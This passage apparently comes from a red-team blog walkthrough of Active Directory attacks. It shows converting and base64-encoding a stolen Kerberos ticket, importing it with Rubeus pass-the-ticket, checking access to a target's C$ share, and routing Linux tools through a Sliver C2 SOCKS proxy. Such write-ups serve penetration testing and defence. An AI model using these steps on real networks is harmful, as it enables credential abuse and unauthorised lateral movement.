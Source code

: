 I'll be demonstrating the second method here, as it's a bit more messy and readers may not be familiar with it.

```sh
ticketConverter.py ticket.ccache ticket.kirbi
```

![38](https://i.gyazo.com/6caa0ed0bae36d0ac7ef788d34d515c6.png)

```sh
cat ticket.kirbi | base64 -w 0
```

![39](https://i.gyazo.com/db52db455c96c22273fe9a2a7882c899.png)

Import the ticket on Windows with `Rubeus.exe ptt /ticket:[base64_ticket]`

![40](https://i.gyazo.com/4793ff075f9fe172b2046b17e79bb3cb.png)

We can see that our ticket was successfully imported with `Rubeus.exe klist`

![41](https://i.gyazo.com/0a3f39e66fd22109e3c575aa450ebbb4.png)

We can verify that our ticket works by listing shares on the target, although in hindsight `ADMIN$` would be a better share to check :P

```
ls //[IP/FQDN]/c$
```

![42](https://i.gyazo.com/0af73f5bbfaa8ad3780c1cbaefc2e1c4.png)

## Why you **shouldn't** perform attacks from Linux

As was briefly discussed in [The Curious Case of Bloodhound-Python](#the-curious-case-of-bloodhound-python), tools on Linux are not as stable as you would expect them to be. This is due to the fact that most tools are community-driven and are not as well-maintained as their Windows counterparts.

Furthermore, this blog post heavily featured the use of an inband socks proxy as well as `proxychains` to proxy commands through the workstation. This may not be feasible in real world engagements, as the inband socks proxy essentially forces beacon to permanently run in `interactive` mode or `sleep 0` as any `sleep` duration may cause some protocols to break.

## Cheatsheet & FAQs

**Q**: Why are you censoring Kerberos tickets that will expire by the time this post is released?  
**A:** In some cases, tickets can be cracked and I don't want to get in trouble. :P

### Proxychains

This wrapper simply proxies the rest of your command through a Socks5 proxy defined in `/etc/proxychains4.conf`. When you start Sliver's `socks5` proxy by default: it opens port 1081 on the **operator's** machine.

![43](https://i.gyazo.com/afee2d86d20464acc09a43755606d9c9.png)
